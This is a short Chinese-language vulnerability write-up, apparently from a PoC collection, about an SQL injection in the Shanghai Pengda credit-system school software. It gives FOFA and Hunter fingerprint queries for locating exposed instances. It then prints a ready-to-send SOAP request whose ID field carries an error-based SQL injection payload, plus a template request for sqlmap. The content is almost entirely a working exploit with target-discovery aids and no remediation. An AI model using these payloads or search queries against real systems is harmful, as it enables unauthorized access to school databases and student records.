


# 一、漏洞简介
上海鹏达计算机系统开发有限公司，成立于1996年，上海睿泰企业管理集团成员，位于上海市，是一家以从事软件和信息技术服务业为主的企业。上海鹏达计算机系统开发有限公司学分制系统存在SQL注入漏洞。

# 二、影响版本
+ 上海鹏达计算机系统开发有限公司学分制系统

# 三、资产测绘
+ fof：`icon_hash="-1632820573"` 
+ hunter：`web.icon=="ed77bfdfc1820162d9a33434bae2e07c"`
+ 特征


# 四、漏洞复现
```java
POST /WebService_PantoSchool.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: ASP.NET_SessionId=e5l5acb3exqi5bmtezazrjsg
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: http://tempuri.org/GetCalendarContentById
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 314

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetCalendarContentById>
         <!--type: string-->
         <tem:ID>-7793' OR 7994 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(120)+CHAR(113)+CHAR(113)+(SELECT (CASE WHEN (7994=7994) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(112)+CHAR(106)+CHAR(113))) AND 'qciT'='qciT</tem:ID>
      </tem:GetCalendarContentById>
   </soapenv:Body>
</soapenv:Envelope>
```



sqlmap

```java
POST /WebService_PantoSchool.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: ASP.NET_SessionId=e5l5acb3exqi5bmtezazrjsg
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: http://tempuri.org/GetCalendarContentById
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 314

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetCalendarContentById>
         <!--type: string-->
         <tem:ID>1</tem:ID>
      </tem:GetCalendarContentById>
   </soapenv:Body>
</soapenv:Envelope>
```



